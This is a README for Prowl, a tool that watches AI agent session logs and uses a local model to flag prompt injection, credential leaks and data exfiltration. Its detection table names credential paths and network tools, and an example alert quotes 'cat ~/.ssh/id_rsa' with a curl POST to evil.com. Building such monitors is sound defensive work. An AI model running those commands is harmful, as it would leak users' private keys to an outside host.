

<p align="center">
  
</p>

# Prowl

Security monitor for [OpenClaw](https://github.com/anthropics/openclaw) agent session logs. Prowl watches your agent sessions in real time, runs each batch of activity through a local AI model, and alerts you when it detects suspicious behavior — prompt injection, credential exposure, data exfiltration, and more.

Everything runs locally. No data leaves your machine unless you configure S3 shipping.

## How it works

```
~/.openclaw/agents/*/sessions/*.jsonl
        │
        ▼
   ┌─────────┐     ┌──────────┐     ┌──────────┐
   │ Watcher  │────▶│ Analyzer │────▶│ Alerter  │──▶ stdout, macOS, webhook, ntfy
   └─────────┘     └──────────┘     └──────────┘
        │               │
        ▼               ▼
   ┌─────────┐     ┌──────────┐
   │ S3 Ship │     │  Ollama  │
   └─────────┘     └──────────┘
```

Prowl tails OpenClaw session files incrementally using byte offsets. On each file change it reads only the new content, batches it, and sends it to a local Ollama model for security analysis. Suspicious findings are dispatched as alerts. Optionally, raw session files are shipped to S3 for centralized storage.

## Prerequisites

- [Node.js](https://nodejs.org/) 18+
- [Ollama](https://ollama.ai/) running locally (or remotely)

## Install

```bash
git clone <repo-url>
cd prowl
npm install
npm run build
npm link  # makes `prowl` available globally

# Install Ollama and pull the default model
prowl setup
```

## Quick start

```bash
# Start monitoring in the foreground
prowl start --foreground

# Or run as a background daemon
prowl start
prowl status
prowl tail        # live alert stream
prowl stop
```

## CLI

### `prowl setup`

Install Ollama (if needed), start the server, and pull the configured analysis model. Run this once after installing Prowl.

```
prowl setup [--model <model>]
```

### `prowl start`

Start the monitoring daemon.

```
prowl start [options]

Options:
  --model <model>        Ollama model to use
  --agents <agents>      Comma-separated agent names to watch (default: all)
  --notify <channels>    Comma-separated notification channels
  --foreground           Run in foreground with verbose output
  --s3-bucket <bucket>   Enable S3 shipping to this bucket
  --no-watchdog          Disable the watchdog process
```

### `prowl stop`

Stop the background daemon.

### `prowl status`

Show whether the daemon is running, current config, today's alert count, watchdog status, and heartbeat age.

### `prowl scan <file>`

One-shot analysis of a session file without starting the daemon.

```
prowl scan ~/.openclaw/agents/main/sessions/abc123.jsonl
prowl scan session.jsonl --model llama3
```

### `prowl ship <file>`

One-shot upload of a session file to S3.

```
prowl ship session.jsonl --bucket my-bucket
prowl ship session.jsonl --bucket my-bucket --endpoint https://acct.r2.cloudflarestorage.com
```

Options: `--bucket`, `--region`, `--prefix`, `--endpoint`

### `prowl tail`

Live stream of alerts. Shows the last 10 alerts then watches for new ones.

### `prowl history`

View past alerts.

```
prowl history              # last 24 hours
prowl history --since 7d   # last 7 days
```

### `prowl usage`

Token usage and cost statistics.

```
prowl usage                    # aggregate summary
prowl usage --hourly           # hourly breakdown
prowl usage --daily --since 7d # daily over a week
prowl usage --json             # machine-readable
```

### `prowl config`

Get and set configuration values using dot notation.

```
prowl config get
prowl config get notify.channels
prowl config set notify.min_severity high
prowl config set s3.logs.bucket my-bucket
```

## Configuration

Config lives at `~/.prowl/config.json`. All values can be set via `prowl config set`.

| Key | Default | Description |
|-----|---------|-------------|
| `model` | `gpt-oss-safeguard:20b` | Ollama model for analysis |
| `ollama.host` | `http://localhost:11434` | Ollama API endpoint |
| `watch.agents` | `*` | Agent names to watch (`*` = all) |
| `watch.include_deleted` | `false` | Include `.deleted` session files |
| `watch.debounce_ms` | `2000` | Debounce delay for file changes (ms) |
| `notify.channels` | `["stdout"]` | Alert channels: `stdout`, `macos`, `webhook`, `ntfy`, `openclaw` |
| `notify.min_severity` | `medium` | Minimum severity to alert on |
| `notify.webhook.url` | `null` | Webhook URL for alert delivery |
| `notify.ntfy.url` | `null` | ntfy topic URL (e.g. `https://ntfy.sh/prowl-alerts`) |
| `notify.ntfy.token` | `null` | Bearer token for ACL-protected ntfy topics |
| `scan.batch_lines` | `20` | Lines per analysis batch |
| `scan.include_logs` | `true` | Also watch `~/.openclaw/logs/` |
| `s3.logs.enabled` | `false` | Enable S3 log shipping |
| `s3.logs.bucket` | `null` | S3 bucket name |
| `s3.logs.region` | `auto` | AWS region |
| `s3.logs.prefix` | `prowl/` | S3 key prefix |
| `s3.logs.endpoint` | `null` | Custom S3 endpoint for R2, MinIO, etc. |
| `s3.logs.flush_interval_s` | `60` | Seconds between batch flushes |
| `s3.logs.flush_max_bytes` | `262144` | Byte threshold to trigger a flush (256KB) |
| `state_dir` | `~/.prowl` | Directory for state files |

## Threat detection

Prowl detects eight categories of suspicious activity:

| Category | Examples |
|----------|----------|
| **Prompt injection** | External content attempting to override system instructions |
| **Credential exposure** | API keys, passwords, SSH keys appearing in outputs |
| **Unauthorized file access** | Reading `~/.ssh/`, `~/.aws/`, `/etc/passwd`, `.env` |
| **Social engineering** | Agent being manipulated into unintended actions |
| **Privilege escalation** | `sudo`, `chmod`, `chown` usage |
| **Data exfiltration** | `curl`, `wget`, `fetch` to unknown external URLs |
| **Config tampering** | Unauthorized changes to system or agent config |
| **Anomalous behavior** | Rapid retries, base64 obfuscation, unusual patterns |

Each finding includes a severity level (`low`, `medium`, `high`, `critical`), a human-readable summary, and specific indicators.

## Notification channels

- **stdout** — formatted console output with color-coded severity
- **macos** — native macOS notifications via Notification Center
- **webhook** — HTTP POST with JSON alert payload to any URL
- **ntfy** — push notifications via [ntfy](https://ntfy.sh) to any device (phone, browser, desktop). Self-hostable or use the public ntfy.sh server
- **openclaw** — OpenClaw integration (planned)

Configure with:

```bash
prowl config set notify.channels '["stdout","macos","webhook"]'
prowl config set notify.webhook.url https://hooks.slack.com/services/...
prowl config set notify.min_severity high
```

### ntfy

[ntfy](https://ntfy.sh) lets you receive Prowl alerts on any device — Mac, phone, or browser — even when you're away from the machine running Prowl.

```bash
prowl config set notify.channels '["stdout","ntfy"]'
prowl config set notify.ntfy.url '"https://ntfy.sh/prowl-alerts"'

# Optional: for ACL-protected topics
prowl config set notify.ntfy.token '"tk_mytoken"'
```

Alerts are sent as plain-text POSTs with ntfy headers for title, priority, and emoji tags. Prowl severity maps to ntfy priority: low=2, medium=3, high=4, critical=5.

## S3 log shipping

Ship raw session logs to S3 for compliance, forensics, or SIEM ingestion. Logs are buffered in memory and flushed in batches to reduce PUT request costs. A flush occurs when either the time interval or byte threshold is reached.

**S3 key structure:** `{prefix}{agent}/{sessionId}.jsonl`
Example: `prowl/main/845b9348-48e8-40e8-a156-1e13b66ea628.jsonl`

S3 config is under `s3.logs`:

### AWS S3

```bash
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
prowl config set s3.logs.enabled true
prowl config set s3.logs.bucket my-security-logs
prowl config set s3.logs.region us-east-1
prowl start
```

### Cloudflare R2

```bash
prowl config set s3.logs.endpoint https://<account-id>.r2.cloudflarestorage.com
prowl config set s3.logs.bucket my-bucket
prowl config set s3.logs.enabled true
```

### MinIO

```bash
prowl config set s3.logs.endpoint http://localhost:9000
prowl config set s3.logs.bucket my-bucket
prowl config set s3.logs.enabled true
```

Or use `--s3-bucket` on start for quick one-off use:

```bash
prowl start --s3-bucket my-bucket
```

### Tuning flush behavior

```bash
prowl config set s3.logs.flush_interval_s 30   # flush every 30s (default: 60)
prowl config set s3.logs.flush_max_bytes 131072 # flush at 128KB (default: 256KB)
```

## Watchdog

By default, Prowl spawns a watchdog process alongside the daemon. The watchdog monitors the daemon's heartbeat and automatically restarts it if it becomes unresponsive. If the daemon crashes repeatedly (3 times within 60 seconds), the watchdog stops and marks a crash-loop.

- `prowl status` shows watchdog and heartbeat information
- `prowl start --no-watchdog` disables the watchdog

| Config key | Default | Description |
|------------|---------|-------------|
| `watchdog.enabled` | `true` | Enable watchdog process |
| `watchdog.heartbeat_interval_s` | `5` | How often the daemon writes a heartbeat |
| `watchdog.staleness_threshold_s` | `15` | Seconds before heartbeat is considered stale |
| `watchdog.poll_interval_s` | `5` | How often the watchdog checks the heartbeat |
| `watchdog.max_respawns` | `3` | Max respawns within the crash window |
| `watchdog.crash_window_s` | `60` | Time window for crash-loop detection |

## State directory

Prowl stores its state in `~/.prowl/`:

```
~/.prowl/
├── config.json      # configuration
├── offsets.json     # file read positions (for incremental processing)
├── alerts.jsonl     # alert history
├── usage.json       # token usage by session
├── usage.jsonl      # time-series usage log
├── prowl.pid        # daemon PID
├── watchdog.pid     # watchdog PID
├── heartbeat        # daemon heartbeat timestamp
├── prowl.log        # daemon log
└── crash-loop       # crash-loop marker (created by watchdog)
```

## Example alert output

When Prowl detects suspicious activity, alerts look like this:

```
[HIGH] Agent attempted to read SSH private key and exfiltrate via curl
  Session: 845b9348-48e8-40e8 | Category: DATA_EXFILTRATION
  File: /Users/you/.openclaw/agents/main/sessions/845b9348.jsonl
  Indicators: cat ~/.ssh/id_rsa, curl -X POST https://evil.com/collect
  Time: 2025-06-15T14:32:01.000Z
```

macOS notifications appear as native Notification Center banners with the severity level and summary.

## Troubleshooting

**Ollama not reachable**
Prowl requires a running Ollama instance. Start it with `ollama serve` and ensure the model is pulled:
```bash
ollama serve &
ollama pull gpt-oss-safeguard:20b
```

**Daemon won't start ("already running")**
If a previous daemon crashed without cleaning up, remove the stale PID file:
```bash
rm ~/.prowl/prowl.pid
prowl start
```

**Crash-loop detected**
The watchdog stops restarting the daemon after repeated crashes. Clear the marker and investigate the daemon log:
```bash
rm ~/.prowl/crash-loop
cat ~/.prowl/prowl.log
prowl start
```

**No sessions detected**
Prowl watches `~/.openclaw/agents/*/sessions/`. Verify the directory exists and contains `.jsonl` files. Use `--foreground` to see which directories are being watched:
```bash
prowl start --foreground
```

**S3 upload fails**
Ensure `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` are set in your environment. For R2/MinIO, verify the endpoint URL is correct. Test with a one-shot upload first:
```bash
prowl ship some-session.jsonl --bucket my-bucket
```

## Development

```bash
npm run dev    # watch mode — recompiles on changes
npm run build  # one-shot compile
npm start      # run compiled CLI
```

## License

MIT
